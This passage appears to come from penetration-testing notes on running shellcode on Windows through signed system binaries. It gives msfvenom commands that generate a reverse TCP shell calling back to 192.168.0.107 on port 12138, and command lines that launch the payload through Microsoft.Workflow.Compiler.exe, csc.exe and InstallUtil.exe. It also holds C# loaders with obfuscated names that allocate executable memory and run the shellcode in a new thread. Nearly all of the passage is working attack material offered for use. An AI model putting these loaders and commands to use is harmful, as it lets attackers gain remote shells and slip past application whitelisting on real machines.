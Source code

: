 ```csharp
catch (Exception err) { }
}
} 
}
```
	>msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f csharp
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe 1.xml 1.cs
![image](/assets/Pentest_Note/master/img/130.png)
```csharp
using System.Workflow.Activities;
using System.Net; 
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Threading;
class yrDaTlg : SequentialWorkflowActivity {
[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);
[DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr DStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVpSg);
[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);
[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);
public yrDaTlg() {
byte[] QWKpWKhcs =
{SHELLCODE
};
IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);
Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);
IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTfwBS = IntPtr.Zero;
uint BnhanUiUJaetgy;
bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);
oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);
WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}
}

```
 #### Csc
	>msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f csharp
	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out: C:\Users\y\Desktop\shell.exe /platform:x64 /unsafe C:\Users\y\Desktop\shell.cs
	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\shell.exe
```csharp
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices; 
public class Program
{
public static void Main()
{
}
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
public override void Uninstall(System.Collections.IDictionary savedState)
{
Shellcode.Exec();
```